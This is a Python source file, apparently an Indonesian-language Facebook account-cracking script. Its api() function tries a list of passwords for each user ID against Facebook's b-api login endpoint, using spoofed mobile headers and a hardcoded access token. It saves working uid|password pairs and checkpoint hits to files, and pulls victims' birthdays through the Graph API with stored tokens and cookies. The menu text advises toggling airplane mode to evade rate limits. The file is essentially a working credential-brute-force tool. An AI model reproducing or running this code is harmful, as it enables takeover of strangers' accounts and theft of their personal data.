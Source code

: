 				
def kone():
    print(f"{B} | ")
    print(f"{B} | ")
    print(f"{P}[1] B-api >>>> {B}Fast")
    print(f"{P}[2] Mbasic >>>> {B}Low")
    print(f"{P}[3] Mobile >>>> {B}Very low")

def started():
    print(f"{B} | ")
    print(f"{B} | ")
    print(f"{P}[•]{B} Results {I}ok {B}tersimpan di {I}ok/{tanggal}")
    print(f"{P}[•]{B} Results {K}cp {B}tersimpan di {K}cp/{tanggal}")
    print(f"{B} | ")
    print(f"{P}[•] Mode pesawat 5 detik jika tidak ada hasil")
    print(f"{B} | {P}")

def api(uid, fii):
    try:
        ua = open("ua", "r").read()
    except IOError:
        ua = "nokiac3-00/5.0 (07.20) profile/midp-2.1 configuration/cldc-1.1 mozilla/5.0 applewebkit/420+ (khtml, like gecko) safari/420+"
    global ok, cp, loop, token, cookie
    sys.stdout.write(f"\r{P}[•] >>>>>> {B} {loop}/{len(id)} {I}OK : {B}{len(ok)} {K}CP : {B}{len(cp)}");sys.stdout.flush()
    for pw in fii:
        pw = pw.lower()
        headers_ = {"x-fb-connection-bandwidth": str(random.randint(20000000.0, 30000000.0)), "x-fb-sim-hni": str(random.randint(20000, 40000)), "x-fb-net-hni": str(random.randint(20000, 40000)), "x-fb-connection-quality": "EXCELLENT", "x-fb-connection-type": "cell.CTRadioAccessTechnologyHSDPA", "user-agent": ua, "content-type": "application/x-www-form-urlencoded", "x-fb-http-engine": "Liger"}
        ses = requests.Session()
        send = ses.get("https://b-api.facebook.com/method/auth.login?format=json&email="+str(uid)+"&password="+str(pw)+"&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_inlololid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true", headers=headers_)
        if "session_key" in send.text and "EAAA" in send.text:
            print(f"\r{B} |----> {I}{uid}•{pw}")
            ok.append("%s|%s"%(uid, pw))
            open("OK/%s.json"%(tanggal),"a").write("%s|%s\n"%(uid, pw))
            break
        elif "www.facebook.com" in send.json()["error_msg"]:
            try:
                token  = open('login/token.json','r').read()
                cookie = {'cookie':open('login/cookie.json','r').read()}
                ttl = ses.get("https://graph.facebook.com/%s?access_token=%s"%(uid, token),cookies=cookie).json()["birthday"]
                month, day, year = ttl.split("/")
                month = _bulan_[month]
                print(f"\r{B} |----> {K}{uid}•{pw}•{day} {month} {year}")
                cp.append("%s|%s"%(uid, pw))
                open("CP/%s.json"%(tanggal),"a").write("%s|%s|%s %s %s\n"%(uid, pw, day, month, year))
                break
            except (KeyError, IOError):
                day = (" ")
                month = (" ")
                year = (" ")
            except:pass
            cek_log(uid,pw,ua)
            print(f"\r{B} |----> {K}{uid}•{pw}")
            cp.append("%s|%s"%(uid, pw))
            open("CP/%s.json"%(tanggal),"a").write("%s|%s\n"%(uid, pw))